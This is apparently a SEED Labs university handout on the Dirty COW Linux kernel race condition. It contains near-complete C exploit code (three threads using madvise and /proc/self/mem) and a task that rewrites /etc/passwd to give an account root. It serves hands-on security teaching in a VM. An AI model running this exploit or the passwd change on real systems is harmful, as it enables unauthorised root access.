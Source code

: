 # Dirty COW Attack Lab

```
Copyright © 2017 by Wenliang Du.
This work is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International
License. If you remix, transform, or build upon the material, this copyright notice must be left intact, or
reproduced in a way that is reasonable to the medium in which the work is being re-published.
```
## 1 Overview

The Dirty COW vulnerability is an interesting case of the race condition vulnerability. It existed in the
Linuxkernel since September 2007, and was discovered and exploited in October 2016. The vulnerability
affects allLinux-based operating systems, including Android, and its consequence is very severe: attackers
can gain the root privilege by exploiting the vulnerability. The vulnerability resides in the code of copy-on-
write insideLinuxkernel. By exploiting this vulnerability, attackers can modify any protected file, even
though these files are only readable to them.
The objective of this lab is for students to gain the hands-on experience on the Dirty COW attack,
understand the race condition vulnerability exploited by the attack, and gain a deeper understanding of the
general race condition security problems. In this lab, students will exploit the Dirty COW race condition
vulnerability to gain the root privilege.

Readings and videos. Detailed coverage of the Dirty COW attack can be found in the following:

- Chapter 8 of the SEED Book,Computer & Internet Security: A Hands-on Approach, 2nd Edition, by
    Wenliang Du. See details athttps://www.handsonsecurity.net.
- Section 7 of the SEED Lecture at Udemy,Computer Security: A Hands-on Approach, by Wenliang
    Du. See details athttps://www.handsonsecurity.net/video.html.

Lab environment. This lab has been tested on our pre-built Ubuntu 12.04 VM, which can be downloaded
from the SEED website. If you are using our SEEDUbuntu 16.04 VM, this attack will not work, because
the vulnerability has already been patched in the kernel. You can download the SEEDUbuntu12.04 VM
from the SEED web site. If you have an Amazon EC2 account, you can find our VM from the “Community
AMIs”. The name of the VM isSEEDUbuntu12.04-Generic. It should be noted that Amazon’s site
says that this is a 64-bit VM; that is incorrect. The VM is 32-bit. However, this incorrect information does
not cause any problem.

Files needed for this lab are included in Labsetup.zip, which can be fetched by running the following commands.

```
sudo wget https://seedsecuritylabs.org/Labs_20.04/Files/Dirty_COW/Labsetup.zip
sudo unzip Labsetup.zip
```

## 2 Task 1: Modify a Dummy Read-Only File

The objective of this task is to write to a read-only file using the Dirty COW vulnerability.

### 2.1 Create a Dummy File

We first need to select a target file. Although this file can be any read-only file in the system, we will use
a dummy file in this task, so we do not corrupt an important system file in case we make a mistake. Please
create a file calledzzzin the root directory, change its permission to read-only for normal users, and put
some random content into the file using an editor such asgedit.


$ sudo touch /zzz
$ sudo chmod 644 /zzz
$ sudo gedit /zzz
$ cat /zzz
111111222222333333
$ ls -l /zzz
-rw-r--r-- 1 root root 19 Oct 18 22:03 /zzz
$ echo 99999 > /zzz
bash: /zzz: Permission denied

From the above experiment, we can see that if we try to write to this file as a normal user, we will fail,
because the file is only readable to normal users. However, because of the Dirty COW vulnerability in the
system, we can find a way to write to this file. Our objective is to replace the pattern"222222"with
"******".

### 2.2 Set Up the Memory Mapping Thread

You can download the programcowattack.cfrom the website of the lab. The program has three threads:
the main thread, the write thread, and the madvise thread. The main thread maps/zzzto memory, finds
where the pattern"222222"is, and then creates two threads to exploit the Dirty COW race condition
vulnerability in the OS kernel.

Listing 1: The main thread
/* cow_attack.c (the main thread) */

#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
pthread_t pth1,pth2;
struct stat st;
int file_size;

```
// Open the target file in the read-only mode.
int f=open("/zzz", O_RDONLY);
```
```
// Map the file to COW memory using MAP_PRIVATE.
fstat(f, &st);
file_size = st.st_size;
map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
```
```
// Find the position of the target area
char *position = strstr(map, "222222"); ¿
```
```
// We have to do the attack using two threads.
pthread_create(&pth1, NULL, madviseThread, (void *)file_size); ¡
```

```
pthread_create(&pth2, NULL, writeThread, position); ¬
```
// Wait for the threads to finish.
pthread_join(pth1, NULL);
pthread_join(pth2, NULL);
return 0;
}

In the above code, we need to find where the pattern"222222"is. We use a string function called
strstr()to find where"222222"is in the mapped memory (Line¿). We then start two threads:
madviseThread(Line¡) andwriteThread(Line¬).

### 2.3 Set Up the write Thread

The job of thewritethread listed in the following is to replace the string"222222"in the memory with
"******". Since the mapped memory is of COW type, this thread alone will only be able to modify the
contents in a copy of the mapped memory, which will not cause any change to the underlying/zzzfile.

Listing 2: Thewritethread
/* cow_attack.c (the write thread) */

void *writeThread(void*arg)
{
char *content= "******";
off_t offset = (off_t) arg;

int f=open("/proc/self/mem", O_RDWR);
while(1) {
// Move the file pointer to the corresponding position.
lseek(f, offset, SEEK_SET);
// Write to the memory.
write(f, content, strlen(content));
}
}

### 2.4 The madvise Thread

Themadvisethread does only one thing: discarding the private copy of the mapped memory, so the page
table can point back to the original mapped memory.

Listing 3: Themadvisethread
/* cow_attack.c (the madvise thread) */

void *madviseThread(void*arg)
{
int file_size = (int) arg;
while(1){
madvise(map, file_size, MADV_DONTNEED);
}
}


### 2.5 Launch the Attack

If thewrite()and themadvise()system calls are invoked alternatively, i.e., one is invoked only after
the other is finished, thewriteoperation will always be performed on the private copy, and we will never
be able to modify the target file. The only way for the attack to succeed is to perform themadvise()
system call while thewrite()system call is still running. We cannot always achieve that, so we need
to try many times. As long as the probability is not extremely low, we have a chance. That is why in the
threads, we run the two system calls in an infinite loop. Compile thecowattack.cand run it for a few
seconds. If your attack is successful, you should be able to see a modified/zzzfile. Report your results in
the lab report and explain how you are able to achieve that.

$ gcc cow_attack.c -lpthread
$ a.out
... press Ctrl-C after a few seconds ...

## 3 Task 2: Modify the Password File to Gain the Root Privilege

Now, let’s launch the attack on a real system file, so we can gain the root privilege. We choose the
/etc/passwdfile as our target file. This file is world-readable, but non-root users cannot modify it.
The file contains the user account information, one record for each user. Assume that our user name is
seed. The following lines show the records for root andseed:

root:x:0:0:root:/root:/bin/bash
seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash

Each of the above record contains seven colon-separated fields. Our interest is on the third field, which
specifies the user ID (UID) value assigned to a user. UID is the primary basis for access control inLinux,
so this value is critical to security. The root user’s UID field contains a special value 0; that is what makes
it the superuser, not its name. Any user with UID 0 is treated by the system as root, regardless of what user
name he or she has. Theseeduser’s ID is only 1000 , so it does not have the root privilege. However,
if we can change the value to 0 , we can turn it into root. We will exploit the Dirty COW vulnerability to
achieve this goal.
In our experiment, we will not use theseedaccount, because this account is used for most of the
experiments in this book; if we forget to change the UID back after the experiment, other experiments will
be affected. Instead, we create a new account calledcharlie, and we will turn this normal user into root
using the Dirty COW attack. Adding a new account can be achieved using theaddusercommand. After
the account is created, a new record will be added to/etc/passwd. See the following:

$ sudo adduser charlie
...
$ cat /etc/passwd | grep charlie
charlie:x:1001:1001:,,,:/home/charlie:/bin/bash

We suggest that you save a copy of the/etc/passwdfile, just in case you make a mistake and corrupt
this file. An alternative is to take a snapshot of your VM before working on this lab, so you can always roll
back if the VM got corrupted.

Task: You need to modify thecharlie’s entry in/etc/passwd, so the third field is changed from
1001 to 0000 , essentially turningcharlieinto a root account. The file is not writable tocharlie, but


we can use the Dirty COW attack to write to this file. You can modify thecowattack.cprogram from
Task 1 to achieve this goal.
After your attack is successful, if you switch user tocharlie, you should be able to see the#sign at
the shell prompt, which is an indicator of the root shell. If you run theidcommand, you should be able to
see that you have gained the root privilege.

seed@ubuntu$ su charlie
Passwd:
root@ubuntu# id
**uid=0(root)** gid=1001(charlie) groups=0(root),1001(charlie)

## 4 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.



